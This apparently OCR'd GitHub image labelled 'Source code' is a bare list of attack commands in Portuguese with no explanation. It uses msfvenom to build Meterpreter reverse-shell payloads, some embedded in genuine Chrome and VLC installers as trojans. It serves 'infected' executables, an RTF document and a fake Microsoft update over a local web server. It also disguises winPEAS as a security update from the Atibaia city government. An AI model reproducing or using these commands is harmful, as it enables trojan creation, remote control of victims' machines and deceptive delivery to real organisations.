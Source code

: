 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

sudo apt update
sudo apt install apache2 php libapache2-mod-php -y
sudo systemctl restart apache2

mv winPEASx64.exe Atualizacao_Seguranca_Prefeitura_2021.exe
zip -r Pacote_Atualizacao_Completo_Atibaia.zip Atualizacao_Seguranca_Prefeitura_2021.exe

 
